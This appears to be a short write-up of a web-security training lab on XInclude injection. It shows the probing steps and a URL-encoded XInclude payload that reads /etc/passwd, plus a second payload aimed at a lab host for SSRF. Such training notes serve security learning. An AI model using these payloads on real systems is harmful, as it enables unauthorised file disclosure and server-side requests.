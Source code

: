 # Lab: Exploiting XInclude to retrieve files

Description:  This lab has a "Check stock" feature that embeds the user input inside a server-side XML document that is subsequently parsed.
 Because you don't control the entire XML document you can't define a DTD to launch a classic XXE attack.
 To solve the lab, inject an `XInclude` statement to retrieve the contents of the `/etc/passwd` file.
End goal : LFI (/etc/passwd)

Analysis :

- using special chars to detect anaomolies
  - productId=1!@#$%^*()_+}{|":';/.,&storeId=1 -> "Entities are not allowed for security reasons"
  - productId=1<testing>lol</testing>&storeId=1 -> "Invalid product ID: 1lol"
  - we found our injection point
final payload
-`productId=1<foo+xmlns%3axi%3d"http%3a//www.w3.org/2001/XInclude"><xi%3ainclude+parse="text"+href%3d"file%3a///etc/passwd"/></foo>&storeId=1`
and other payload that we might use for SSRF
- `productId=1<foo+xmlns%3axi%3d"http%3a//www.w3.org/2001/XInclude"><xi%3ainclude+parse="text"+href%3d"https%3a//0a55000203fa1027806cd5fd0052008f.web-security-academy.net/"/></foo>&storeId=1`
